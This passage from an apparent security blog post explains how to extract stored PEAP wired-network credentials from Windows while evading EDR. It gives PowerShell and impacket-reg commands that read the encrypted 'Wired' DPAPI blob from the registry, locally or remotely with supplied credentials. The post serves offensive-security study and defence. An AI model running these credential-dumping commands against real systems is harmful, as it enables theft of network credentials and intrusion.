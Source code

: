 ![Cleartext credentials extracted from the output binary file](/assets/posts/2024-02-25-peap-credentials-wired-connections/17_hxd-blob-decrypted.png)
_Cleartext credentials extracted from the output binary file_

Now, you might be wondering whether this value is the same in all versions of the DLL. Well, I cannot say for sure, but I checked a couple of them, and it was, so it's most probably the case.

## A stealthier approach

[Mimikatz](https://github.com/gentilkiwi/mimikatz) is a great tool, but it can be a pain to get it running on a target machine, especially nowadays, with all those EDR / XDR protections. I have some packers of my own that could do the job, but we would simply be better off not having to run anything directly on the target. For that purpose, I devised a procedure for decrypting the data using only [impacket](https://github.com/fortra/impacket) scripts offline.

First things first, we can reuse the initial PowerShell commands to dump the DPAPI blob to a file.

```powershell
$RegPath = "HKLM\SOFTWARE\Microsoft\dot3svc\Interfaces\{215B523B-D0D3-42AB-BF7E-C143108E2422}\UserData\Profiles\{9A2E6B93-5356-49B7-A0E1-67B8CE8AEBBE}"
$Blob = Get-ItemPropertyValue -Path "Registry::$RegPath" -Name "Wired"
[IO.File]::WriteAllBytes("C:\Temp\wired.bin", $Blob)
```

Alternatively, if we have network access to the target, we can use the following commands to query the registry recursively, and dump the value we are interested in.

```bash
# 1. Get the network interface and profile IDs
export KEY_BASE="HKLM\SOFTWARE\\Microsoft\\dot3svc\\Interfaces"
impacket-reg 'USER:PASS@TARGET' query -keyName "${KEY_BASE}" -s
# 2. Get the content of the 'Wired' value
export INTERFACE_GUID="{INTERFACE_GUID_HERE}" # {215B523B-D0D3-42AB-BF7E-C143108E2422}
export PROFILE_GUID="{PROFILE_GUID_HERE}"     # {9A2E6B93-5356-49B7-A0E1-67B8CE8AEBBE}
impacket-reg 'USER:PASS@TARGET' query -keyName "${KEY_BASE}\\${INTERFACE_GUID}\\UserData\\Profiles\\${PROFILE_GUID}" -v "Wired"
```
